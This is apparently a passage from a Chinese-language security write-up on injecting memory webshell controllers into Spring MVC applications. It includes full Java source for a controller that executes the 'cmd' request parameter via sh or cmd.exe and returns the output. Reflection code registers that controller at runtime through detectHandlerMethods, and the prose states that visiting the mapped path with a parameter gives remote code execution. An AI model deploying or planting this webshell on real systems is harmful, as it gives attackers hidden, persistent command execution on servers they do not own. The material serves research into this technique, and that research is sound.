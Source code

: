 ```java
        public InjectedController(){
        }
        public void cmd() throws Exception {
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            }
        }
    }
}

```





先访问Inject进行controller注册。然后访问controller映射路径evilcontroller，带上参数就能RCE



![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116134710299.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116134914576.png)



除此以外，还有两种方式能模拟注册Controller

②detectHandlerMethods直接注册

上面指出：在detectHandlerMethods中，用getMappingForMethod创建RequestMappingInfo

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230115144613123.png)

该方法接收handler参数，就能寻找到bean并注册controller

```java
//1.在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("org.example.springmvc.InjectedController").newInstance());
// 2. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
// 3. 反射获得 detectHandlerMethods Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
//4.将 dynamicController 注册到 handlerMap 中
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```
